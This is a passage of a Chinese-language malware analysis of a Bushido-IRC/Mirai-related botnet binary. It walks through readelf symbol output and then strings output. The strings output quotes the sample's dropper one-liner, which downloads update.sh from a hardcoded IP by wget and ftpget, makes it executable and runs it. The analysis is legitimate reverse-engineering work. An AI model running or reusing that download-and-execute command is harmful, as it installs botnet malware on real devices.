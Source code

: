 ``` bash
345: 000000000041162a     3 FUNC    WEAK   DEFAULT    2 __pthread_mutex_lock
346: 000000000040fc98    30 FUNC    GLOBAL DEFAULT    2 __sigdelset
```
下面我们读取以 '.c' 结束的符号

``` bash
$ readelf -s x64_ambvjcv9e0 | grep -F .c
16: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
26: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
32: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS initfini.c
35: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS Bushido-IRC.c
50: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS __syscall_fcntl.c
51: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS _exit.c
52: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS close.c
53: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS fork.c
54: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getdtablesize.c
55: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getpid.c
56: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getppid.c
57: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getrlimit.c
58: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS ioctl.c
59: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS kill.c
```
发现了一个有趣的文件 Bushido-IRC.c（本僵尸网络名字的来源），更有意思的是，接下去我发现不需要用反编译的手段，直接用 strings 工具就可以发现该恶意样本的很多有用信息

``` bash
$ strings ambvjcv9e0
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget hxxp://80.93.187.211/update.sh -O update.sh; busybox wget http://80.93.187.211/update.sh -O update.sh; ftpget
 -v -u anonymous -p anonymous -P 21 80.93.187.211 update.sh update.sh; busybox ftpget -v -u anonymous -p anonymous -P 21 80.93.187.211 update.sh update.sh; chmod 777 upd
ate.sh; ./update.sh; rm -rf update.sh
mirai.*
dlr.*mips
mips64
mipsel
sh2eb
sh2elf
armv5
armv4tl
armv4
armv6
i686
powerpc
```

通过浏览 strings 输出我发现了该样本的有趣信息：

1. CNC 服务器的 IP 地址
2. telnet 服务的账号和密码
3. 若干 HTTP headers 相关的字符串
4. 若干 user agent 相关的字符串
5. 大量种族主义的言论
6. 大量IRC命令和相关字符串
7. 恶意软件使用说明
8. 恶意软件更新命令和大量其他命令
9. 错误处理相关的字符串
10. libc 库函数名
11. nmap 扫描命令
12. 编译脚本的名字
